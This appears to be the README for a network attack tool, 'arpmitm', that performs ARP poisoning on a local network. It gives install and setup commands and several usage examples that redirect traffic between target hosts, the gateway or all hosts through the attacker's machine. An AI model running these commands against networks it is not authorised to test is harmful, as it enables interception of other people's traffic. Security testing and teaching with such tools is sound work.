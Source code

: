 # ARP Man-in-the-Middle

A tool to redirect hosts on a local network to your own computer (to intercept the traffic - aka ARP poisoning).  

Direct Download: [https://github.com/hackerschoice/thc-arpmitm/tree/master/releases](https://github.com/hackerschoice/thc-arpmitm/tree/master/releases)

**Install:**
```sh
./configure --enable-static \
&& make all
```

Setup:
```sh
echo 1 >/proc/sys/net/ipv4/ip_forward
echo 0 | tee /proc/sys/net/ipv4/conf/*/send_redirects
```

**Example 1:**
```sh
arpmitm -t 10.0.1.111
```
The above redirects all traffic between the target '10.0.1.111' and the Internet through your computer.

**Example 2:**
```sh
arpmim -v 00:02:13:37:73:50 10.0.1.254:11:11:22:22:33:33 10.0.1.111:44:44:55:55:66:66
```
A classic redirect. The above redirects all traffic between 10.0.1.254 and 10.0.1.111 through your computer. Where 10.0.1.254 is the default gateway then this makes it identical to Example 1. Example 1 finds out all the MAC's automatically.

**Example 3:**
```sh
arpmitm 00:02:13:37:73:50 255.255.255.255 10.0.1.254
```
The above will use 1 broadcast packet to tell *everyone* that 10.0.1.254 is you now.

**Example 4 the bold:**
```sh
arpmitm -A 00:02:13:37:73:50 255.255.255.255 10.0.0.1 10.0.0.2 10.0.0.3 10.0.0.4
```
The above will redirect all local traffic between the 4 hosts through your computer.

**Features:**
- Auto-Mode
- Broadcast Mode: Send 1 ARP-broadcast to ALL hosts and redirect ALL hosts with a single packet (be warned!)

**Supported Platforms:**
1. Linux
1. MacOS
1. FreeBSD

**Changelog:**  
2000 Internal team-teso release by xdr/skyper  
2001 Leaked to the public  
2020 Resurrection. Portability and added AUTO-MODE for beginners.  
2040 stay tuned!!!  

shoutz :+1: #oscar, ADM

